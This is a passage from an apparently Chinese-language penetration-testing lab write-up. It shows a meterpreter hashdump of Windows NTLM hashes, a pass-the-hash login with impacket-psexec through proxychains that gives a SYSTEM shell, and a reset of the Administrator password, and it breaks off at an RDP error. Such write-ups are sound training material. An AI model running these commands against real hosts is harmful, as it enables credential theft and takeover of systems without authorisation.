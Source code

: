 :::warning

MS7-010 漏洞的利用要一点运气，确认漏洞存在但是不成功的话，就多试几次

:::

## 172.22.15.24 添加后门用户

尝试运行 `shell` 启动终端，但是失败了，于是尝试通过 `meterpreter-hashdump` 配合 `impacket-psexec` 获取终端

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

获取得到 `Administrator` 的哈希之后，执行 `impacket-psexec`

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-psexec administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 172.22.15.24.....
[*] Found writable share ADMIN$
[*] Uploading file QbvIybMQ.exe
[*] Opening SVCManager on 172.22.15.24.....
[*] Creating service cJdd on 172.22.15.24.....
[*] Starting service cJdd.....
[!] Press help for extra shell commands
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```

然后更改用户密码

```shell
C:\Windows\system32> net user Administrator admin123###
命令成功完成。
```

在尝试登录 RDP 的时候，远程服务器返回错误
